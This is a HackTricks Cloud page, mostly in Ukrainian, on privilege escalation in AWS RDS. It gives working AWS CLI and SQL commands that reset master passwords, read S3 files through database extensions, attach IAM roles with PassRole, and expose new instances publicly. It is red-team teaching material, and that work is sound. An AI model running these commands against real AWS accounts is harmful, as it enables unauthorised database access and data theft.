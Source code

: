 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Служба реляційних баз даних

For more information about RDS check:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

With that permission an attacker can **змінити пароль майстер-користувача**, and the login inside the database:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Вам потрібно буде **зв'язатися з базою даних** (зазвичай вони доступні лише з внутрішніх мереж).
{% endhint %}

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), користувач з цим дозволом може підключитися до екземпляра БД.

### Зловживання дозволами ролі RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Якщо виконуючи **`SELECT datname FROM pg_database;`** ви знайдете базу даних під назвою **`rdsadmin`**, ви знаєте, що ви всередині **AWS postgresql бази даних**.
{% endhint %}

Спочатку ви можете перевірити, чи використовувалася ця база даних для доступу до будь-якої іншої служби AWS. Ви можете перевірити це, подивившись на встановлені розширення:
```sql
SELECT * FROM pg_extension;
```
Якщо ви знайдете щось на кшталт **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (є й інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете побачити, чи **кластер має прикріплену IAM роль** у полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших сервісів AWS**. Виходячи з **імені ролі** (або якщо ви можете отримати **дозволи** ролі), ви могли б **вгадати**, який додатковий доступ має база даних.

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Якщо у вас є **сирі AWS облікові дані**, ви також можете використовувати їх для доступу до даних S3 за допомогою:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Всередині mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і є користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.
{% endhint %}

Всередині mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних готова до доступу до даних S3.

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи має кластер будь-яку **асоційовану роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити зловмиснику **отримати доступ до чутливих даних** або змінити дані в межах екземпляра.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.\
Зверніть увагу, що деякі БД вимагають додаткових налаштувань, таких як Mysql, який потребує вказати роль ARN у групах параметрів.

### `rds:CreateDBInstance`

Лише з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує і має прикріплену **IAM роль**. Він не зможе змінити пароль майстер-користувача, але може мати можливість виставити новий екземпляр бази даних в інтернет:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Зловмисник з правами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленою вказаною роллю**. Зловмисник може потім потенційно **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Профіль повинен існувати у вашому обліковому записі.
* Профіль повинен мати IAM роль, яку Amazon EC2 має право приймати.
* Ім'я профілю екземпляра та пов'язане ім'я IAM ролі повинні починатися з префікса `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у RDS екземплярі.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з дозволами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого RDS екземпляра**. Це може дозволити зловмиснику **доступ до чутливих даних** або змінити дані в межах екземпляра.

{% hint style="warning" %}
DB екземпляр повинен бути поза кластером для цього
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
